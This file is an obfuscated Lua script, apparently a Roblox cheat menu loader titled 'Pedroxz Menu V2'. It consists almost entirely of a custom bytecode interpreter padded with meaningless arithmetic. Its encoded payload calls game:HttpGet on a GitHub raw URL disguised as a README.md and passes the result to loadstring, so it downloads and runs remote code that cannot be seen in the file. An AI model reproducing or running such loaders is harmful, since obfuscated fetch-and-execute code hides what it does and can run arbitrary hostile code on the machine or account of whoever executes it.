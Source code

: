--[[

░█▀▀█ █▀▀ █▀▀▄ █▀▀█ █▀▀█ █─█ ▀▀█ 　 █▀▄▀█ █▀▀ █▀▀▄ █──█ 　 ░█──░█ █▀█ 
░█▄▄█ █▀▀ █──█ █▄▄▀ █──█ ▄▀▄ ▄▀─ 　 █─▀─█ █▀▀ █──█ █──█ 　 ─░█░█─ ─▄▀ 
░█─── ▀▀▀ ▀▀▀─ ▀─▀▀ ▀▀▀▀ ▀─▀ ▀▀▀ 　 ▀───▀ ▀▀▀ ▀──▀ ─▀▀▀ 　 ──▀▄▀─ █▄▄
]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function()return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...)local v18=0;local v19;local v20;local v21;local v22;local v23;local v24;local v25;local v26;local v27;local v28;local v29;local v30;while true do if (v18==5) then v27=v24;v28=nil;function v28(...)return {...},v12("#",...);end v18=6;end if (v18==2) then function v22()local v31=0 -0 ;local v32;while true do if (v31==((929 -(214 + 713)) -1)) then return v32;end if (v31==(0 -0)) then v32=v1(v16,v19,v19);v19=v19 + ((234 + 698) -(857 + 74)) ;v31=2 -1 ;end end end v23=nil;function v23()local v33,v34=v1(v16,v19,v19 + 2 );v19=v19 + (879 -(282 + 595)) ;return (v34 * (41 + 215)) + v33 ;end v18=3;end if (v18==4) then function v25()local v35=v24();local v36=v24();local v37=1 + (442 -(416 + 26)) ;local v38=(v21(v36,1 -0 ,(3464 -2379) -(68 + 428 + 569) ) * ((1272 -(226 + 1044))^((245 -106) -107))) + v35 ;local v39=v21(v36,138 -(32 + 85) ,87 -56 );local v40=((v21(v36,32 + 0 )==(1 -0)) and  -(1188 -(1069 + 118))) or (1 + 0) ;if (v39==(957 -(892 + 65))) then if (v38==((438 -(145 + 293)) -0)) then return v40 * ((430 -(44 + 386)) -0) ;else local v93=0 -0 ;while true do if ((350 -((1573 -(998 + 488)) + 263))==v93) then v39=181 -(67 + 36 + 77) ;v37=0 + 0 ;break;end end end elseif (v39==(1502 + 545)) then return ((v38==(0 -0)) and (v40 * ((1 + 0)/0))) or (v40 * NaN) ;end return v8(v40,v39-(4065 -3042) ) * (v37 + (v38/((20 -(10 + 8))^(199 -147)))) ;end v26=nil;function v26(v41)local v42;if  not v41 then local v83=0 + 0 ;while true do if ((772 -(201 + 571))==v83) then v41=v24();if (v41==(1138 -(116 + (2517 -1495)))) then return "";end break;end end end v42=v3(v16,v19,(v19 + v41) -(4 -3) );v19=v19 + v41 ;local v43={};for v67=1, #v42 do v43[v67]=v2(v1(v3(v42,v67,v67)));end return v6(v43);end v18=5;end if (v18==6) then v29=nil;function v29()local v44=0;local v45;local v46;local v47;local v48;local v49;local v50;local v51;while true do if (v44~=(562 -(306 + 254))) then else v49=nil;v50=nil;v44=3;end if (v44==1) then local v92=0 + 0 ;while true do if (v92~=(1 -0)) then else v44=2;break;end if ((1467 -(899 + 568))==v92) then v47=nil;v48=nil;v92=1;end end end if (0==v44) then v45=0 + 0 ;v46=nil;v44=1;end if (v44~=3) then else v51=nil;while true do local v94=0;local v95;while true do if (0==v94) then v95=0 -0 ;while true do if ((604 -(268 + 335))==v95) then if (v45==0) then local v133=0;while true do if ((291 -(60 + 230))==v133) then local v147=0;while true do if (0~=v147) then else v48={};v49={v46,v47,nil,v48};v147=1;end if (v147==(1 + 0)) then v133=1458 -(282 + 1174) ;break;end end end if (v133==(813 -(569 + 242))) then v45=2 -1 ;break;end if (v133==(0 + 0)) then v46={};v47={};v133=1;end end end break;end if (v95~=(1024 -(706 + 318))) then else if (v45==1) then local v134=1251 -(721 + 530) ;while true do if (v134~=(1273 -(945 + 326))) then else v45=2;break;end if (1==v134) then local v148=0 -0 ;while true do if ((1 + 0)~=v148) then else v134=2;break;end if (v148==0) then for v157=701 -(271 + 429) ,v50 do local v158=0;local v159;local v160;local v161;local v162;while true do if (v158~=(1 + 0)) then else v161=nil;v162=nil;v158=1502 -(1408 + 92) ;end if (v158==0) then v159=1086 -(461 + 625) ;v160=nil;v158=1;end if (v158==(1290 -(993 + 295))) then while true do if (v159==(1 + 0)) then v162=nil;while true do if (v160~=(1171 -(418 + 753))) then else local v170=0;local v171;local v172;while true do if (v170~=0) then else v171=0;v172=nil;v170=1;end if ((1 + 0)==v170) then while true do if (v171~=(0 + 0)) then else v172=0;while true do if (0==v172) then v161=v22();v162=nil;v172=1;end if ((1 + 0)~=v172) then else v160=1 + 0 ;break;end end break;end end break;end end end if (v160==1) then if (v161==(530 -(406 + 123))) then v162=v22()~=0 ;elseif (v161==2) then v162=v25();elseif (v161==3) then v162=v26();end v51[v157]=v162;break;end end break;end if (v159~=0) then else local v169=1769 -(1749 + 20) ;while true do if (1~=v169) then else v159=1 + 0 ;break;end if (v169~=(1322 -(1249 + 73))) then else v160=0 + 0 ;v161=nil;v169=1;end end end end break;end end end v49[1148 -(466 + 679) ]=v22();v148=1;end end end if (0~=v134) then else local v149=0 -0 ;while true do if (v149==(2 -1)) then v134=1;break;end if (v149==0) then v50=v24();v51={};v149=1;end end end end end if ((1902 -(106 + 1794))~=v45) then else local v135=0;while true do if (v135==(0 + 0)) then for v150=1,v24() do local v151=0 + 0 ;local v152;local v153;while true do if (v151==0) then v152=0;v153=nil;v151=2 -1 ;end if (v151==1) then while true do if (v152==(0 -0)) then v153=v22();if (v21(v153,1,1)==(114 -(4 + 110))) then local v163=0;local v164;local v165;local v166;local v167;local v168;while true do if (v163~=(586 -(57 + 527))) then else v168=nil;while true do if (v164==0) then local v174=0;while true do if (v174==0) then v165=0;v166=nil;v174=1428 -(41 + 1386) ;end if (v174~=1) then else v164=1;break;end end end if (v164==(105 -(17 + 86))) then while true do if (v165==(3 + 0)) then if (v21(v167,6 -3 ,8 -5 )~=1) then else v168[4]=v51[v168[170 -(122 + 44) ]];end v46[v150]=v168;break;end if (v165~=2) then else local v178=0 -0 ;local v179;local v180;while true do if ((0 -0)~=v178) then else v179=0 + 0 ;v180=nil;v178=1;end if (v178~=(1 + 0)) then else while true do if (v179==0) then v180=0 -0 ;while true do if (1==v180) then v165=68 -(30 + 35) ;break;end if (v180~=0) then else if (v21(v167,1,1 + 0 )==(1258 -(1043 + 214))) then v168[2]=v51[v168[7 -5 ]];end if (v21(v167,2,2)==1) then v168[1215 -(323 + 889) ]=v51[v168[7 -4 ]];end v180=581 -(361 + 219) ;end end break;end end break;end end end if (v165~=(320 -(53 + 267))) then else local v181=0;local v182;while true do if (v181==(0 + 0)) then v182=413 -(15 + 398) ;while true do if (v182==0) then local v188=0;local v189;while true do if (v188~=(982 -(18 + 964))) then else v189=0 -0 ;while true do if (v189==(0 + 0)) then v166=v21(v153,2 + 0 ,853 -(20 + 830) );v167=v21(v153,4 + 0 ,6);v189=1;end if ((127 -(116 + 10))==v189) then v182=1 + 0 ;break;end end break;end end end if (v182==(739 -(542 + 196))) then v165=1;break;end end break;end end end if (v165==(1 -0)) then local v183=0 + 0 ;local v184;while true do if (v183==(0 + 0)) then v184=0;while true do if (v184~=1) then else v165=2;break;end if (0~=v184) then else local v190=0 + 0 ;local v191;while true do if (v190==0) then v191=0 -0 ;while true do if (v191~=0) then else local v196=0 -0 ;while true do if (0~=v196) then else v168={v23(),v23(),nil,nil};if (v166==(405 -(118 + 287))) then local v197=0 -0 ;local v198;while true do if (v197==0) then v198=1121 -(118 + 1003) ;while true do if (v198==0) then v168[8 -5 ]=v23();v168[381 -(142 + 235) ]=v23();break;end end break;end end elseif (v166==(4 -3)) then v168[1 + 2 ]=v24();elseif (v166==2) then v168[3]=v24() -((979 -(553 + 424))^(29 -13)) ;elseif (v166==(3 + 0)) then local v203=0 + 0 ;local v204;local v205;while true do if (1==v203) then while true do if (v204==(0 + 0)) then v205=0;while true do if (v205==0) then v168[2 + 1 ]=v24() -((2 + 0)^(34 -18)) ;v168[11 -7 ]=v23();break;end end break;end end break;end if (0==v203) then v204=0 -0 ;v205=nil;v203=1 + 0 ;end end end v196=4 -3 ;end if (v196~=1) then else v191=754 -(239 + 514) ;break;end end end if (v191==1) then v184=1 + 0 ;break;end end break;end end end end break;end end end end break;end if (v164==1) then local v175=1329 -(797 + 532) ;local v176;while true do if (0==v175) then v176=0;while true do if (0==v176) then local v187=0;while true do if (v187~=0) then else v167=nil;v168=nil;v187=1;end if (v187~=(1 + 0)) then else v176=1;break;end end end if (v176~=1) then else v164=2;break;end end break;end end end end break;end if (v163==0) then v164=0;v165=nil;v163=1 + 0 ;end if (v163==1) then v166=nil;v167=nil;v163=4 -2 ;end end end break;end end break;end end end for v154=1,v24() do v47[v154-(1203 -(373 + 829)) ]=v29();end v135=1;end if (v135==(732 -(476 + 255))) then return v49;end end end v95=1;end end break;end end end break;end end end v30=nil;v18=7;end if (v18==0) then v19=1;v20=nil;v16=v4(v3(v16,5),"..",function(v52)if (v1(v52,2)==79) then local v84=0;while true do if (v84==0) then v20=v0(v3(v52,1,1));return "";end end else local v85=v2(v0(v52,16));if v20 then local v96=v5(v85,v20);v20=nil;return v96;else return v85;end end end);v18=1;end if (v18==3) then v24=nil;function v24()local v53=0;local v54;local v55;local v56;local v57;while true do if (v53==(1130 -(369 + 761))) then v54,v55,v56,v57=v1(v16,v19,v19 + 2 + (337 -(144 + 192)) );v19=v19 + (6 -2) ;v53=1 -(216 -(42 + 174)) ;end if (v53==(1 + 0)) then return (v57 * ((13897969 + 2879485) -(64 + 174))) + (v56 * (9334 + 56202)) + (v55 * (378 -122)) + v54 ;end end end v25=nil;v18=4;end if (v18==7) then function v30(v58,v59,v60)local v61=v58[1];local v62=v58[2];local v63=v58[3];return function(...)local v69=v61;local v70=v62;local v71=v63;local v72=v28;local v73=1;local v74= -1;local v75={};local v76={...};local v77=v12("#",...) -1 ;local v78={};local v79={};for v86=0,v77 do if (v86>=v71) then v75[v86-v71 ]=v76[v86 + 1 ];else v79[v86]=v76[v86 + 1 ];end end local v80=(v77-v71) + 1 ;local v81;local v82;while true do v81=v69[v73];v82=v81[1];if (v82<=6) then if (v82<=2) then if (v82<=0) then v79[v81[2]]=v81[3];elseif (v82>1) then local v105=0;local v106;while true do if (v105==0) then v106=v81[2];v79[v106]=v79[v106](v13(v79,v106 + 1 ,v74));break;end end else v79[v81[2]]=v60[v81[3]];end elseif (v82<=4) then if (v82==3) then local v109=0;local v110;local v111;local v112;local v113;while true do if (v109==0) then v110=v81[2];v111,v112=v72(v79[v110](v13(v79,v110 + 1 ,v81[3])));v109=1;end if (v109==2) then for v144=v110,v74 do v113=v113 + 1 ;v79[v144]=v111[v113];end break;end if (1==v109) then v74=(v112 + v110) -1 ;v113=0;v109=2;end end else v79[v81[2]]();end elseif (v82==5) then local v114=v81[2];local v115,v116=v72(v79[v114](v13(v79,v114 + 1 ,v81[3])));v74=(v116 + v114) -1 ;local v117=0;for v130=v114,v74 do v117=v117 + 1 ;v79[v130]=v115[v117];end else do return;end end elseif (v82<=9) then if (v82<=7) then local v103=v81[2];v79[v103]=v79[v103](v13(v79,v103 + 1 ,v74));elseif (v82>8) then local v118=0;local v119;local v120;while true do if (v118==0) then v119=v81[2];v120=v79[v81[3]];v118=1;end if (v118==1) then v79[v119 + 1 ]=v120;v79[v119]=v120[v81[4]];break;end end else v79[v81[2]]();end elseif (v82<=11) then if (v82>10) then do return;end else v79[v81[2]]=v81[3];end elseif (v82>12) then local v123=v81[2];local v124=v79[v81[3]];v79[v123 + 1 ]=v124;v79[v123]=v124[v81[4]];else v79[v81[2]]=v60[v81[3]];end v73=v73 + 1 ;end end;end return v30(v29(),{},v17)(...);end if (v18==1) then v21=nil;function v21(v64,v65,v66)if v66 then local v89=0 + 0 ;local v90;while true do if (v89==(1504 -(363 + 1141))) then v90=(v64/((1582 -(1183 + 397))^(v65-(2 -1))))%((2 + (1661 -(1477 + 184)))^(((v66-(1 + 0)) -(v65-(1976 -(1913 + 62)))) + 1)) ;return v90-(v90%(1 + (0 -0))) ;end end else local v91=(5 -3)^(v65-((1803 + 131) -(565 + 1368))) ;return (((v64%(v91 + v91))>=v91) and 1) or (0 -0) ;end end v22=nil;v18=2;end end end v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O747047657403563O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F506564726F787A4879707O652F6F6C6F6B6F7365696E616F656D726B736B736B2F6D61696E2F524541444D452E6D6400083O0012013O00013O001201000100023O00200D00010001000300120A000300044O0003000100034O00025O00022O00043O000100012O00063O00017O00",v9(),...);
